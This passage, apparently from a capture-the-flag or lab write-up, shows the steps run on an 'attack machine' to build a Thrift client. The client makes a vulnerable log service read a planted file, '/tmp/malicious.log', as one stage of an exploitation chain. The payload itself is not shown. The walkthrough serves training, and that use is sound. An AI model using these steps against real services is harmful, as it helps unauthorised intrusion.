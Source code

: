 And then, also on the attack machine:

```console
$ cat log_service.thrift
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```

```console
sudo apt install python3-thrift
```

```console
thrift -r --gen py log_service.thrift
cd gen-py
```

`x.py`:

```python
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"

        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)

    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```
